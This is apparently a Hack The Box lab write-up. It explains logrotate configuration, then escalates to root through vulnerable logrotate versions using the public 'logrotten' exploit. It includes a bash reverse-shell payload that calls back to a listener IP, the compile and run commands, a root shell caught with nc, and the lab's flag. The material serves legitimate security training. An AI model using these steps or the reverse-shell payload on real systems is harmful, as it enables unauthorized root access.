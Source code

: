 ```yaml
---
description: >-
  Every Linux system produces large amounts of log files. To prevent the hard
  disk from overflowing, a tool called logrotate takes care of archiving or
  disposing of old logs.
---
```


# Logrotate

`Logrotate` has many features for managing these log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

```shell-session
man logrotate
$ # or
$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

```bash
cat /etc/logrotate.conf

# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate/status` or use the `-f`/`--force` option:

```bash
sudo cat /var/lib/logrotate/status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```bash
ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```bash
cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

## Exploit

there are few requirments that we have to meet inorder to exploit logrotate.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

{% embed url="https://github.com/whotwagner/logrotten" %}
prefabricated exploit that we can use for this if the requirements are met.
{% endembed %}

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

We need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

If "create"-option is set in logrotate.cfg:

```
./logrotten -p ./payload /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:

```
./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log
```

```shell-session
nc -nlvp 9001
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Escalate the privileges and submit the contents of flag.txt as the answer.

```
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>the logrotate is running as root</p></figcaption></figure>

```
htb-student@ubuntu:~$ cd logrotten/
htb-student@ubuntu:~/logrotten$ ls
logrotten.c  logrotten.png  README.md  test
htb-student@ubuntu:~/logrotten$ gcc logrotten.c -o logrotten
htb-student@ubuntu:~/logrotten$ echo 'bash -i >& /dev/tcp/10.10.14.2/7890 0>&1' > payload
```

Find the writeable log file

```
htb-student@ubuntu:~/logrotten$ find / -type f -writable -name *.log 2>/dev/null
/home/htb-student/backups/access.log
```

Confirm the writable log file

```
htb-student@ubuntu:~/logrotten$ cd /home/htb-student/
htb-student@ubuntu:~$ ls
backups  logrotten  pspy64
htb-student@ubuntu:~$ cd backups/
htb-student@ubuntu:~/backups$ ls
access.log  access.log.1  access.log.2  access.log.3
htb-student@ubuntu:~/backups$ cat *.log
htb-student@ubuntu:~/backups$ cat *.log*
test_log
test_log
```

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption><p>start nc, run logrotten, trigger log</p></figcaption></figure>

```
root@ubuntu:~# ls 
ls
cron_root
flag.txt
log.cfg
log.sh
reset.sh
snap
root@ubuntu:~# cat flag.txt
cat flag.txt
HTB{l0G_r0t7t73N_00ps}
root@ubuntu:~#   
```

The session will be terminated very fast so read the file quickly!!
